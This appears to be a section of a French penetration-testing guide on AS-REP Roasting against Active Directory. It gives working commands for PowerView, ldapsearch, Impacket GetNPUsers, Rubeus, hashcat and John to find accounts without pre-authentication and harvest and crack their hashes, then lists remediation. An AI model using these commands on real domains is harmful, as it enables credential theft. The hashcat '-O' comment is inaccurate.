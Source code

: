 # III.C. AS-REP Roasting

L'AS-REP Roasting est une attaque qui cible les comptes utilisateurs pour lesquels la pré-authentification Kerberos est désactivée (attribut `DONT_REQ_PREAUTH`). Pour ces comptes, un attaquant peut demander un ticket Kerberos (AS-REP) sans fournir de mot de passe. La partie chiffrée de ce ticket peut ensuite être craquée hors ligne pour retrouver le mot de passe du compte.

## 1. Identification des Comptes Vulnérables

*   **PowerView :**
    ```powershell
    Get-DomainUser -PreauthNotRequired | select samaccountname, userprincipalname, distinguishedname
    ```
*   **Requête LDAP (ldapsearch ou ADExplorer) :**
    L'attribut `userAccountControl` contient le flag `DONT_REQ_PREAUTH` (valeur 4194304 ou 0x400000).
    ```bash
    ldapsearch -x -H ldap://<IP_DC> -D "<DN_USER_SI_AUTH>" -w "<PASSWORD_SI_AUTH>" \
               -b "<DN_BASE_DOMAINE>" \
               "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" \
               samaccountname userprincipalname
    # Pour une recherche anonyme (si autorisée)
    ldapsearch -x -h <IP_DC> -b "<DN_BASE_DOMAINE>" \
               "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" \
               samaccountname userprincipalname
    ```
*   **Impacket `GetNPUsers.py` (Linux) :**
    Cet outil peut également identifier et récupérer les hashes AS-REP.
    ```bash
    # Nécessite une liste d'utilisateurs (users.txt) ou un utilisateur cible
    # -dc-ip : IP du contrôleur de domaine
    # -request : Demande le hash si le compte est vulnérable
    # -format hashcat : Sortie au format pour Hashcat
    python GetNPUsers.py <DOMAINE.LOCAL>/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip <IP_DC>
    python GetNPUsers.py <DOMAINE.LOCAL>/<utilisateur_cible> -request -format hashcat -dc-ip <IP_DC>
    ```

## 2. Récupération des Hashes AS-REP

*   **Rubeus (Windows) :**
    ```powershell
    # Pour un utilisateur spécifique
    Rubeus.exe asreproast /user:<NOM_UTILISATEUR> /domain:<DOMAINE.LOCAL> /dc:<IP_DC> /format:hashcat | Out-File -FilePath C:\temp\asrep_hashes.txt
    # Pour tous les utilisateurs vulnérables (peut être bruyant)
    # Rubeus.exe asreproast /outfile:C:\temp\asrep_hashes.txt /format:hashcat
    ```
*   **Impacket `GetNPUsers.py` (Linux) :**
    (Voir commande ci-dessus, elle récupère directement les hashes).

## 3. Craquage des Hashes AS-REP

Les hashes AS-REP sont généralement de type KRB5ASREP (mode Hashcat 18200).

*   **Hashcat :**
    ```bash
    # hashcat -m 18200 <fichier_hashes_asrep> <liste_de_mots_de_passe>
    hashcat -m 18200 asrep_hashes.txt rockyou.txt
    hashcat -m 18200 asrep_hashes.txt rockyou.txt -O # Optimisation pour mots de passe plus longs
    ```
*   **John the Ripper :**
    ```bash
    # john --format=krb5asrep --wordlist=rockyou.txt asrep_hashes.txt
    # ou pour le type 23 (plus récent)
    # john --format=krb5asrep-23 --wordlist=rockyou.txt asrep_hashes.txt
    ```

## Impact et Remédiation
*   **Impact :** Compromission de comptes utilisateurs, potentiellement des comptes de service ou privilégiés si mal configurés.
*   **Remédiation :**
    *   Activer la pré-authentification Kerberos pour tous les comptes utilisateurs (décocher "Do not require Kerberos preauthentication" dans ADUC).
    *   Utiliser des mots de passe longs et complexes pour rendre le craquage plus difficile. 